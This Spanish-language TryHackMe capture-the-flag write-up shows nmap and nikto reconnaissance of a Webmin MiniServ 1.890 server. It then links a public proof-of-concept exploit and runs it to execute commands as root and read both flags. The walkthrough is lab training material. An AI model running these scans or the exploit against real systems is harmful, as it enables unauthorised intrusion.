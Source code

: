 Bienvenidos a otra sala de tryhackme, en esta ocasion traemos una maquina bastante sencilla en el que tenemos que descubrir la version del servidor y encontrar el exploit para reclamar ambas flags.

# Recon

Iniciamos nuestro reconocimiento utilizando __nmap__. Le diremos que escanee todos los puertos abiertos, con una tasa de paquetes de 5000, en modo sigiloso sin activar las alertas de seguridad y haciendo el escaneo mas rapido, tambien le diremos que no compruebe si el objetivo este en linea, que no resuelva los nombres del host durante el escaneo evitando que los servidores __DNS__ registren el escaneo y haciendo el escaneo mucho mas rapido, tambien que nos muestre la version del servicio, y lo resuelva todo en modo agresivo "__T4__", usamos verbose para ver el progreso del escaneo y que guarde todo el proceso en formato normal, para luego poder echarle un vistazo siempre que querramos. Ejecutaremos nuestro comando : `sudo nmap  -p- --open --min-rate 5000 -sS -Pn -n -sV -T4 -vvv IPTARGET -oN nmap`

```ruby
Nmap scan report for IPTARGET
Host is up, received user-set (0.25s latency).
Scanned at 2023-07-05 02:18:53 EDT for 53s
Not shown: 65533 closed ports
Reason: 65533 resets
PORT      STATE SERVICE REASON         VERSION
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
10000/tcp open  http    syn-ack ttl 63 MiniServ 1.890 (Webmin httpd)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap

```

Nuestro escaneo de nmap nos muestra los puertos ssh y http abiertos. Tenemos el servidor web configurado en el puerto 10.000. Intente lanzar gobuster para descubrir directorios ocultos pero no tuve exito. 

Utilizamos nikto para descubir informacion acerca del servidor web como  posibles versiones o vulnerabilidades.

```ruby
nikto -h http://IPTARGET:10000

+ Server: MiniServ/1.890
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ MiniServ - This is the Webmin Unix administrator. It should not be running unless required.

```

Nos indica que tiene como servidor : MiniServ que pertenece al sitio webmin unix administrator. Realizamos una busqueda en general por internet buscando posibles exploits para webmin con la version de Miniserv 1.890. Encontramos este repo de github : https://github.com/n0obit4/Webmin_1.890-POC.

Se trata de un exploit en el que podemos lanzar comandos dentro del sistema ya con usuario privilegiado root. Nos tranferimos el exploit a nuestra maquina atacante, y le tenemos que especificar el host, puerto y comando que querramos utilizar.

```bash
python3 exploit.py -host IPTARGET -port 10000 -cmd "whoami"
```

Como ya tendremos el usuario root incorportado, tenemos que leer solamente ambas flag.

```bash
python3 exploit.py -host IPTARGET -port 10000 -cmd "ls /home"
python3 exploit.py -host IPTARGET -port 10000 -cmd "cat /root/root.txt"
```